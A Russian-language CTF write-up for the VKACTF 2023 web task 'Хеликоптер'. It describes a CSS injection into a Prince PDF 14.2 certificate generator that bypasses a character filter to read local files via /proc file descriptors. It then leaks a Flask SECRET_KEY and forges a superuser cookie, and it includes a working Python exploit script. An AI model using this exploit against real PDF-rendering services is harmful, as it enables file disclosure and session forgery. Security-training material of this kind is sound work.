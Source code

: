 ## Хеликоптер

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Хеликоптер  | Web | Hard |

  
### Описание


> Автор: [ vChuk ]
>
Вертолет Эггмана, известного злобного гения и вечного врага Соника и Майлза, был захвачен динамичным дуэтом суперскоростного ежа и его верного друга, летающего лисенка. Внутри вертолета, захваченного на летнем острове Саут Айленд, они обнаружили зловещий план Эггмана по захвату мира. Помоги им остановить его 
> 


### Решение
Была дана часть исходного кода приложения, отвечающаяя за генерацию pdf.

В README.md написано:
```txt
Из переменных, которые стоит изменить:
    SECRET_KEY
    WORKDIR
    BASE_DIR
    SESSION_COOKIE_NAME 
```
Так-же из исходного кода можно отметить чтение config.json
```python
    config = open("config.json")
    config_data = config.read()
    config_json = json.loads(config_data)
```
Из-за измененного BASE_DIR прочитать файлы не получиться, но в данном случае, из-за того что файл не закрывается, присутствует возможность чтение файла` config.js` через `cat /proc/N/fd/K` , где N - номер процесса приложения, K - номер файлового дескриптора.

В веб приложении был функционал, позволяющий изменять цвет background. 
Данное значение помещалось в сертификат в background-color. На изменение, происходила проверка на символы
```txt
["/", "#", '"', "'", "<", ">","{{", "."]
```
Это можно было узнать, по ответу, который приходил от сервера.
Данный фильтр не позволял открыть новые тэги, читать файл с расширением(где в названии присутствовала точка)

Так-же имелась возможность генерирования pdf файла, с помощью Prince PDF 14.2. 
Т.к. имелся контроль над background-color, с поправкой на фильтр, имелась возможность css инъекции. В [документации](https://www.princexml.com/doc/14/prince-output/) имеется пример:
```js
@prince-pdf {
        -prince-pdf-script: url("myscript.js")
    }
```
Согласно документации, можно включить локальный файл, в данной версии возможно включить любой файл системы. Для обхода фильтра `/`, необходимо использовать `\\`. При генерации pdf `\\ -> /`.

![Обход фильтра](images/change_color.png)
![Чтение файла](images/lfi.png)
![Декодирование файла](images/decode_utf16.png)

Содержимое файла находится в PDF файле, в секции JS, закодированном в UTF-16 HEX. Для его просмотра необходимо воспользоваться приложением, которое открывает PDF файл, как текст(например HeX, Notepad)

Из исходного кода, зная ошибку конфигурации и имея LFI, можно написать скрипт, который просмотрит первые `20 N` и `20 K` для прочтения `config.json`. Из него можно узнать `SECRET_KEY`, переподписать куки `superuser=True` и получить флаг

python скрипт
```python
import requests
import re 
import codecs

import os

URL = "http://some/url/"
username = os.urandom(8).hex()
password = os.urandom(8).hex()


print(f"{username = }\t{password =}")

s = requests.Session()

# Изменение цвета, для чтения файла
def change_color(data):
    payload = "ffc42e;}@prince-pdf{prince-pdf-script:url("+ data +");}{"
    return s.get(URL+"api/color?value="+payload)

# Получение pdf сертификата
def get_pdfcert():
    return s.get(URL+"certificate/pdf").text

# Парсинг pdf файла
def get_JS(cert):
    res = re.findall(r"/JS <(.*)>>>", cert)
    if len(res) == 1:
        print("\n[+] Find File JS")
        text = codecs.decode(res[0], 'hex').decode('utf-16')
        print(text)


# регистрация 
s.post(URL+"register", data={"username":username, "password":password})

# авторизация
s.post(URL+"login", data={"username":username, "password":password})

for N in range(20):
    for K in range(20):
        print(f"{N = }\t{K = }", end="\r")
        res = change_color(f"\\\\proc\\\\{N}\\\\fd\\\\{K}")
        cert = get_pdfcert()
        get_JS(cert)
```

### Флаг

```
vka{lfi_can_read_all_process}
```